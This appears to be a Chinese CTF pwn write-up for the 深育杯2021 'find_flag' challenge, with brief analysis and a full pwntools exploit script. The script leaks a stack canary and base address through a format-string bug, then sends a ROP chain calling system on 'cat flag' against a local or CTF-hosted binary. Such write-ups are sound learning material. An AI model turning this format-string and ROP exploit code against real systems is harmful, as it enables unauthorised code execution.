 ```yaml
---
title: 深育杯2021-find_flag-wp
date: 2023-06-20 20:27:23
tags:
- CTF
- pwn
- stack
- 深育杯2021
- nssctf
- str_format
- canary
categories:
- pwn-wp
---
```


## 0x1 分析

* 保护全开
* gets ---> printf ---> gets
* 明显栈溢出，首先想到填满然后泄露canary，但是gets会自动将\n替换为\0
* 应用格式化字符串漏洞泄露canary和随机化基地址
* system函数已在plt中
* 有cat flag字符串

![img](https://github.com/Antel0p3/Antel0p3.github.io/blob/main/2023/06/20/深育杯2021-find-flag-wp/0x1.png?raw=true)  

## 0x2 exp

1. 第一个gets，格式化字符串泄露canary和base 
2. 第二个gets，ROP

![img](https://github.com/Antel0p3/Antel0p3.github.io/blob/main/2023/06/20/深育杯2021-find-flag-wp/0x2.png?raw=true)  

```python
from pwn import *
import sys
pty = process.PTY
context(os='linux', log_level='debug')

mode = sys.argv[1] if len(sys.argv) > 1 else ''
if mode == 'r':
    proc = remote("node4.anna.nssctf.cn", 28372)
else:
    proc = process("./bin", stdin=pty, stdout=pty)

belf = ELF("./bin")


def s(x): proc.send(x)
def sl(x): return proc.sendline(x)
def sd(x): return proc.send(x)
def sla(x, y): return proc.sendlineafter(x, y)
def sa(x, y): return proc.sendafter(x, y)
def ru(x): return proc.recvuntil(x)
def rc(x=0xfffffff): return proc.recv(x)
def rl(): return proc.recvline()
def li(con): return log.info(con)
def ls(con): return log.success(con)
def pi(): return proc.interactive()
def pcls(): return proc.close()
def ga(): return u64(ru(b'\x7f')[-6:].ljust(8, b'\x00'))

gscript = '''
    b main
    fin
    fin
    fin
    fin
    ni 80
'''
if mode == 'd':
    gdb.attach(proc, gdbscript=gscript)

# 格式化字符串泄露 canary和随机化base
sla(b'name? ', b'%p '*0x13)

ru(b', ')
t = ru(b'!\n').decode().split(' ')
print(t)

canary = int(t[-4], 16)
base = int(t[-2], 16)-0x146f
catflag_addr = base+0x2004
system_plt = base+belf.plt['system']
rdi_ret = base+0x00000000000014e3
ret = base+0x000000000000101a


ls("canary: "+hex(canary))
ls("catflag_addr: "+hex(catflag_addr))

# ROP
sl(b'h'*0x38 + p64(canary)+b'h'*8+p64(ret) +
    p64(rdi_ret)+p64(catflag_addr)+p64(system_plt))

pi()
pause()

```

